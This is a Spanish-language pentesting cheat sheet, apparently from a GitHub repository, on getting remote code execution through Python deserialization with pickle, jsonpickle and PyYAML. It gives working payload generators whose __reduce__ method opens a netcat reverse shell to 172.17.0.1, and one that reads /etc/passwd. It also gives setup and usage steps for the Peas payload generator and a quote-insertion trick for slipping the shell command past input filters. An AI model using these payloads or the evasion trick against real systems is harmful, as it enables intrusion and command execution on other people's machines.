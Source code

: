 Si nos encontraramos frente a un serial realizado con pickle o JSONPickle podríamos obtener rce aprovechando la función "__reduce__".

Documentación:

            https://docs.python.org/3/library/pickle.html#object.__reduce__

### PICKLE RCE

Reduce devuelve una tupla que comprende:
- Un objeto invocable que será llamado para crear la versión inicial del objeto
- Una tupla de argumentos para el objeto invocable.

Esto quiere decir que si el objeto se encuentra serializado, al momendo de la deserialización, si el objeto tiene definida la función  reduce, será usado para reestablecer el objeto original.

Podemos abusar de esto para que devuelva un objeto invocable con parametros de ejecución de comandos.

Podríamos crear una clase que llame a reduce pidiendole que ejecute comandos en el sistema y pasandole el comando dentro de la tupla:

                        import pickle
                        import base64
                        import os
                        
                        class RCE:
                            def __reduce__(self):
                                return os.system, ("nc -nv 172.17.0.1 9999 -e /bin/sh",)
                        
                        r = RCE()
                        p = pickle.dumps(r)
                        b = base64.b64encode(p)
                        print(b.decode())


### JSONPickle RCE

                        import jsonpickle
                        import os
                        
                        class RCE():
                          def __reduce__(self):
                            return os.system, ("nc -nv 172.17.0.1 9999 -e /bin/sh",)
                        
                        # Serialize (generate payload)
                        exploit = jsonpickle.encode(RCE())
                        print(exploit)


##### Contenidos extra sobre explotación de pickle y JSONPickle

                        https://davidhamann.de/2020/04/05/exploiting-python-pickle/
                        https://versprite.com/blog/application-security/into-the-jar-jsonpickle-exploitation/

### PyYAML & ruamel.yaml

                        import yaml
                        import subprocess
                        
                        class RCE():
                          def __reduce__(self):
                            return subprocess.Popen(["head", "/etc/passwd"])
                        
                        # Serialize (Create the payload)
                        exploit = yaml.dump(RCE())
                        print(exploit)
                        
                        # Deserialize (vulnerable code)
                        yaml.load(exploit)

##### Contenidos extra en PyYAML & ruamel.yaml

                        https://net-square.com/yaml-deserialization-attack-in-python.html
                        https://www.exploit-db.com/docs/english/47655-yaml-deserialization-attack-in-python.pdf



### AUTOMATIZACIÓN

Peas es un script que nos permite automatizar los ataques con las diferentes librerías de serialización en python.

### Instalación

                        git clone https://github.com/j0lt-github/python-deserialization-attack-payload-generator.git
                        cd python-deserialization-attack-payload-generator/
                        pip3 install -r requirements.txt

##### USO

Solo con llamarlo, Peas nos hará una serie de preguntas para generar el payload.

                        python3 peas.py 



### Extra:

Podriamos encontrarnos tanto en blackbox como en whitebox que los objetos, al ser deserializados tengan filtros. Deberemos probar también medidas que permitan pasarlos. Ej:

Agregar las comillas entre los datos plausibles de ser eliminados por los filtos:

            n''c -nv 172.17.0.1 9999 -e /bin/s''h

Más info en el módulo de command injection de este repo
